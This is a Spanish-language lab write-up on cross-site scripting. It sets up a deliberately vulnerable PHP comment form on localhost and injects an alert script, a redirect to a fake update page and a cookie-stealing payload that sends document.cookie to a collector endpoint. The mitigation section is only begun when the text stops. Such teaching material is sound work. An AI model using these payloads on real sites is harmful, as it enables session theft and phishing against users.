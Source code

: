 # Explotación y mitigación de Cross-Site Scripting (XSS)

## Objetivos

> [1. Conocer las diferentes formas de ataques XSS](#1-conocer-las-diferentes-formas-de-ataques-xss)  
> [2. Realizar varios ataques XSS](#2-realizar-varios-ataques-xss)  
> [3. Implementar modificaciones al código para mitigar los ataques XSS](#3-implementar-modificaciones-al-código-para-mitigar-los-ataques-xss)  

-----

## 1. Conocer las diferentes formas de ataques XSS

Los ataques **XSS (Cross-Site Scripting)** son un tipo de vulnerabilidad en sitios web donde un atacante inyecta código malicioso (normalmente JavaScript) en una página que otros usuarios van a visitar.
El objetivo suele ser robar cookies, sesiones, datos del usuario o redirigir a sitios maliciosos.
Los tipos de ataques XSS mas comunes son:

+ ***XSS reflejado***: el script va en una URL y se ejecuta cuando el usuario accede al enlace.
+ ***XSS almacenado***: el script queda guardado en el servidor (como en un comentario) y se ejecuta cuando alguien ve la página.
+ ***XSS DOM-based***: el script se ejecuta por culpa de cómo la propia página maneja el contenido con JavaScript.


## 2. Realizar varios ataques XSS

Vamos a realizar diferentes pruebas en las que realizamos ataques de XSS a sitios inseguros:

Comenzamos creando un fichero php en nuestro servicio de apache con un pequeño formulario, y sin realizar ningun tipo de validación ni sanitización de la entrada:

![php1](./Imagenes/1.png)

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado: [comentario]".

![php1](./Imagenes/2.png)

Si en lugar de introducir un comentario introducimos código *Javascript*, al mostrarse en la página el comentario, el navegador va a interpretar ese código:

Vamos a introducir el siguiente código:

`<script>alert('XSS ejecutado!')</script>`

El navegador lo interpreta y muestra una ventana emergente:

![php1](./Imagenes/3.png)

También podemos redirigir a una página de *Phishing* con el siguiente código:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![php1](./Imagenes/4.png)

Ahora vamos a crearnos un fichero en nuestro servicio web para que se almacenen las *coookies* de los usuarios:

```
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```
Y en el fichero ***index.php*** introducimos el código de [Este archivo](./Recursos/index.php)

Ahora si introducimos el siguiente código Javascript en el formulario:

```
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```
Va a mandar las cookies a nuestro fichero ***index.php***:

![php1](./Imagenes/5.png)

![php1](./Imagenes/6.png)

## 3. Implementar modificaciones al código para mitigar los ataques XSS

En este apartado vamos a implementar modificaciones en el código php del formulario, que filtren y sanitizen la entrada del usuario, para evitar estos ataques de XSS:


